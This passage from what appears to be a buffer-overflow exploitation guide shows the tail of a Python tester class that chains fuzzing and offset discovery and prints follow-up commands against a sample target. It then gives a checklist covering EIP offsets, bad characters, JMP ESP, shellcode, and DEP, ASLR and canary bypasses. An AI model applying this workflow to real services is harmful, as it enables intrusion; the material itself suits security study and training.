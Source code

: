 ```python
        if test_results['fuzzing']:
            test_results['offset_discovery'] = self.discover_offset()
        
        # Step 3: Bad Character Testing (manual offset required)
        # This step requires manual intervention to provide offset
        print("\n[*] For bad character testing, provide the discovered offset:")
        print("    python3 badchars.py {} {} --offset <OFFSET>".format(
            self.target_ip, self.target_port))
        
        # Step 4: DLL Verification (manual offset required)
        print("\n[*] For DLL verification, provide the discovered offset:")
        print("    python3 verify_dll_address.py {} {} --offset <OFFSET>".format(
            self.target_ip, self.target_port))
        
        # Log results
        self.log_test_results(test_results)
        
        return test_results

# Example usage
if __name__ == "__main__":
    tester = BufferOverflowTester("192.168.1.100", 9999)
    tester.run_full_analysis()
```

---

## Exploitation Workflow

### 📋 Complete Exploitation Checklist

1. **🔍 Reconnaissance**
   - [ ] Identify target service and version
   - [ ] Determine input vectors and protocols
   - [ ] Analyze application behavior

2. **💥 Vulnerability Discovery**
   - [ ] Run fuzzing tests to identify crash points
   - [ ] Confirm buffer overflow vulnerability exists
   - [ ] Document crash conditions

3. **🎯 Exploit Development**
   - [ ] Discover exact EIP offset using cyclic patterns
   - [ ] Identify bad characters that corrupt payload
   - [ ] Find reliable return address (JMP ESP, etc.)
   - [ ] Develop functional shellcode
   - [ ] Test complete exploit chain

4. **🛡️ Protection Bypass**
   - [ ] Check for DEP/NX protection
   - [ ] Verify ASLR status
   - [ ] Implement ROP chains if needed
   - [ ] Test stack canary bypass
